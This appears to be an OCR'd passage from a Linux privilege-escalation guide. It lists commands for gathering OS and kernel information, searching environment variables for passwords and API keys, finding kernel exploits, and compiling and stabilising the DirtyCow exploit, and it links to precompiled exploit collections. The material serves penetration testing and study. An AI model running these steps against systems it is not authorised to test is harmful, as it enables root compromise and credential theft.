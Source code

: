 # privSystem Information
OS info
Let's starting gaining some knowledge of the OS running

(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
Path
If you have write permissions on any folder inside the PATH variable you may be able to hijacking some libraries or binaries:

echo $PATH
Env info
Interesting information, passwords or API keys in the environment variables?

(env || set) 2>/dev/null
Kernel exploits
Check the kernel version and if there is some exploit that can be used to escalate privileges

cat /proc/version
uname -a
searchsploit "Linux Kernel"
You can find a good vulnerable kernel list and some already compiled exploits here: https://github.com/lucyoa/kernel-exploits and exploitdb sploits.
Other sites where you can find some compiled exploits: https://github.com/bwbwbwbw/linux-exploit-binaries, https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack​

To extract all the vulnerable kernel versions from that web you can do:

curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
Tools that could help searching for kernel exploits are:

​linux-exploit-suggester.sh
linux-exploit-suggester2.pl
linuxprivchecker.py (execute IN victim,only checks exploits for kernel 2.x)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
Sudo version
Based on the vulnerable sudo versions that appear in:

searchsploit sudo
You can check if the sudo version is vulnerable using this grep.
